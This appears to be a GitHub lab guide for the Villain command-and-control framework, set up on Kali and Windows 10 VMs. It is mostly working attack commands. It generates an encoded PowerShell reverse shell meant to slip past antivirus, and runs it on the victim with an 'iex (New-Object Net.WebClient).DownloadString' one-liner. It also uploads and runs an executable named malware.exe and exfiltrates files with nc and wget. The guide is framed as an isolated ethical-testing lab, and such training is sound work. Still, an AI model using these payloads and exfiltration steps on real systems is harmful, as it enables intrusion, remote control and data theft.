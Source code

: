 # Simple Villain Framework Lab Guide

A step-by-step lab using **Kali Linux** (attacker) and **Windows 10** (victim) in VirtualBox, from payload gen to file transfers.

---

## 1. VirtualBox VM & Networking Setup

1. **Create VMs** in VirtualBox:

   * **Kali Linux**
   * **Windows 10**
2. **Set both adapters** to an **Internal Network** (or Host-Only) named `LabNet`.
3. **Assign static IPs** on the same `/24` subnet:

   * **Kali** (terminal):

     ```bash
     sudo ip addr add 192.168.56.10/24 dev eth0
     sudo ip link set eth0 up
     ```
   * **Windows 10** (Control Panel → Network Adapter → IPv4 settings):

     ```text
     IP address:    192.168.56.20
     Subnet mask:   255.255.255.0
     Gateway/DNS:   (leave blank)
     ```
4. **Verify connectivity**:

   ```bash
   # On Kali
   ping 192.168.56.20
   ```

   You should see replies.

---

## 2. Prepare Kali Attacker

1. **Update & upgrade**:

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```
2. **Clone Villain**:

   ```bash
   git clone https://github.com/keralahacker/Villain.git
   cd Villain
   ```

   > If GitHub is blocked (e.g. college Wi‑Fi), use a VPN or your phone’s hotspot.
3. **Install Python deps**:

   ```bash
   python3 -m venv venv
   source venv/bin/activate
   pip3 install -r requirements.txt
   ```
   ```bash
   sudo pip3 install -r requirements.txt --break-system-packages
   ```
   If it fails, skip to next step.
4. **Start Villain**:

   ```bash
   python3 Villain.py
   ```

   You’ll see the `villain>` prompt.

---

## 3. Build & Deliver Your Payload

### 3.1 Generate the reverse shell

```
villain> generate payload=<OS/handler/template> lhost=<YOUR_IP_or_interface> [encode|obfuscate]
```

| Element       | Meaning                      | Example                   |
| ------------- | ---------------------------- | ------------------------- |
| `OS`          | Target OS family             | `windows`                 |
| `handler`     | Connection type              | `reverse_tcp` (stable)    |
| `template`    | Payload script               | `powershell`              |
| `lhost`       | Your Kali IP or interface    | `192.168.56.10` or `eth0` |
| `[encode]`    | Simple Base64-style encoding | optional (helps evade AV) |
| `[obfuscate]` | String-twisting for stealth  | optional                  |

**Example:**

```bash
villain> generate payload=windows/reverse_tcp/powershell lhost=192.168.56.10 encode
```

This writes `payload.ps1` for the Windows VM.

### 3.2 Host & run the payload

1. **On Kali**, serve it over HTTP:

   ```bash
   cp Core/payloads/windows/reverse_tcp/powershell.ps1 ~/payload.ps1
   cd ~
   python3 -m http.server 8000
   ```
2. **On Windows 10** (PowerShell as Admin):

   ```powershell
   iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10:8000/payload.ps1')
   ```

   This runs the reverse shell back to Kali.

---

## 4. Catch & Use Your Shell

1. **List sessions**:

   ```bash
   villain> sessions
   ```
2. **Enter the shell**:

   ```bash
   villain> shell <SESSION_ID>
   ```

   You get a `PS C:\>` prompt. Use `exit` or Ctrl+C to return.

---

## 5. Uploading Files to the Victim

```
villain> upload <local_path_on_kali> <remote_path_on_windows>
```

* **Example:**

  ```bash
  villain> upload /home/kali/tools/malware.exe C:\Users\Public\malware.exe
  ```
* Then inside your shell:

  ```powershell
  PS C:\> & 'C:\Users\Public\malware.exe'
  ```

---

## 6. Downloading Files from the Victim

Villain has no built-in “download,” but you can exfiltrate:

1. **On Kali**, listen:

   ```bash
   nc -lvp 9001 > secret.txt
   ```
2. **In Windows shell:**

   ```powershell
   PS C:\> nc 192.168.56.10 9001 < C:\Users\Public\secret.txt
   ```

Alternatively, spin up an HTTP server on Windows:

```powershell
PS C:\Users\Public> python3 -m http.server 8000
```

Then on Kali:

```bash
wget http://192.168.56.20:8000/secret.txt -O secret.txt
```

---

## 7. Cleaning Up & Tips

* **flee**: Exit without killing sessions:

  ```bash
  villain> flee
  ```
* **purge**: Wipe saved implant metadata:

  ```bash
  villain> purge
  ```

**Pro Tips:**

* Verify your **lhost** and subnet before generating.
* Use `backdoors` to list re-usable payloads.
* Keep Kali’s firewall off on the lab network.

---

## 8. Broadcast Messages with `#`

You can send a chat message to all connected sibling servers by prefixing with `#`:

```bash
villain> # Hey team, switch to backup C2 channel
```

---

That’s the full lab: network setup, payload gen, shell, file IO, and messaging. Enjoy your ethical testing!
